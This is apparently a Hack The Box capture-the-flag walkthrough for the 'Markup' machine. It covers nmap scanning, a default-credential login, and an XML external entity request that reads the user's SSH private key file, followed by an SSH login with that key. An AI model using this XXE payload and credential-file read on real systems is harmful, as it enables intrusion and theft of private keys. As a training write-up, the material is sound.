

# Markup -  A HTB machine


```bah
nmap -sC -A 10.129.95.192 -Pn 
```

Open ports: 22, 80 and 443.


In the browser, there is a login panel. Try typical credentials. admin and password work. 

Locate the form to order an item. Capture the request with burp:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 108
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><order><quantity>2</quantity><item>Home Appliances</item><address>1</address></order>
```

Playing around with the request (for instance, nesting some xml) you can check that it's possible to escape the xml tags. This request contains a [xml external entity XEE vulnerability](xml-external-entity-xee.md).


From some responses like the one below (and also from nmap scanning) you know that server runs on a windows:

```
:  DOMDocument::loadXML(): Opening and ending tag mismatch: order line 1 and item in Entity, line: 1 in <b>C:\xampp\htdocs\process.php
```

Also, from source code you know there might be a user called daniel:




As part of a possible exploitation we could try to check if there are ssh private key saved in that user's folder.

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 182
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

The response will be id_rsa private key. [More about XEE attacks](xml-external-entity-xee.md).

Now, as port 22 was open:

```bash
ssh -i id_rsa daniel@10.129.95.192
```

user.txt is in Desktop.


